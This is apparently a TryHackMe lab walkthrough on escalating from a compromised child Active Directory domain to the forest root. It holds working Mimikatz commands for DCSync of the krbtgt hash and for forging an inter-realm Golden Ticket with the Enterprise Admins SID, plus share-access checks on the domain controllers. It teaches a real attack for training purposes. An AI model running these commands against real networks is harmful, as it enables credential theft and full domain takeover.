 # Exploiting Domain Trusts in Active Directory

Even though we have access to Tier 0 infrastructure, this is still not enough. We have only exploited the `ZA.TRYHACKME.LOC` domain. Surely, TRYHACKME must have domains for other regions as well? If we take control of the root domain, `TRYHACKME.LOC`, we can compromise all regional domains. In this task, we will look at how domain trust can be exploited to take control of the entire forest.

---

## Domain Trusts

As discussed in the AD Basics room, a **forest** is a collection of one or more domain trees inside an AD network. **Domain Trusts** are a mechanism for users in the network to gain access to resources in other domains. Trusts outline how domains inside a forest communicate with each other. In some environments, trusts can be extended to external domains and even forests.

There are two main types of trusts between domains:

- **Directional**: The trust flows from a trusting domain to a trusted domain.
- **Transitive**: The trust relationship expands beyond just two domains to include other trusted domains.

It is common to have a root or parent domain in a forest. In our case, this is `TRYHACKME.LOC`. For each regional office, sub or child domains are created, such as `ZA.TRYHACKME.LOC` or `UK.TRYHACKME.LOC`. This configuration allows sharing of resources between the ZA and UK offices. For example, a user in the UK office can be granted access to `THMSERVER1` in the ZA domain due to the bidirectional trust between ZA and the root domain, and UK and the root domain, creating a transitive trust between ZA and UK.

The trust between a parent and child domain is **bidirectional**. This is intended behavior for sharing resources through transitive trust relationships. However, as an attacker, we can exploit this trust to compromise the parent domain if we have compromised a child domain.

---

## KRBTGT and Golden Tickets

**KRBTGT** is the account used for Microsoft's implementation of Kerberos. The name is derived from Kerberos (KRB) and Ticket Granting Ticket (TGT). This account acts as the service account for the Kerberos Distribution Center (KDC) service, which handles all Kerberos ticket requests. The password hash is shared by all domain controllers, allowing them to verify the authenticity of TGTs.

To generate our own TGTs and gain access to everything (a **Golden Ticket attack**), we need:

- The FQDN of the domain
- The Security Identifier (SID) of the domain
- The username of the account to impersonate
- The KRBTGT password hash

The first three are usually easy to recover. The last one requires a domain compromise, as the KRBTGT password hash is only stored on domain controllers. If we have compromised the Tier 0 admins group, we can recover the KRBTGT password hash.

**Example: Using Mimikatz with DC Sync to recover the KRBTGT password hash on THMSERVER2:**

```shell
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /user:za\krbtgt
[...output...]
```

---

## Inter-Realm TGTs

With the KRBTGT password hash, we can forge a Golden Ticket to access any resource in the child domain. We can take this further by forging an **Inter-Realm TGT** to exploit the bidirectional trust between the child and parent domain, gaining full access to the parent domain.

We include extra account SIDs from other domains when constructing the Golden Ticket. Mimikatz allows us to set the `ExtraSids` section of the Kerberos TGT, which contains SIDs corresponding to groups in domains other than the account domain.

The key is to exploit the trust the parent domain has with our child domain by adding the SID of the **Enterprise Admins (EA)** group as an extra SID to our forged ticket. The EA group belongs to the parent domain and grants administrative privileges over the entire forest. The default SID for this group is `S-1-5-21-<RootDomain>-519`.

---

### Recovering Required SIDs

We need:

1. The SID of the child domain controller (THMDC), to impersonate in our forged TGT.
2. The SID of the Enterprise Admins group in the parent domain, to add as an extra SID.

**Recover the SID of the child domain controller:**

```powershell
Get-ADComputer -Identity "THMDC"
```

**Recover the SID of the Enterprise Admins group (on the parent DC):**

```powershell
Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc
```

---

## Exploiting Domain Trusts

With all required information, we can create our forged TGT using Mimikatz:

```shell
mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:<krbtgt hash> /sids:<EA group SID> /ptt
```

**Example output:**

```
Golden ticket for 'Administrator @ za.tryhackme.loc' successfully submitted for current session
```

---

### Verifying Access

**Access to the child DC:**

```shell
dir \\thmdc.za.tryhackme.loc\c$
```

**Access to the parent DC:**

```shell
dir \\thmrootdc.tryhackme.loc\c$\
```

---

This proves that we have fully compromised the parent domain solely by compromising one of the child domains!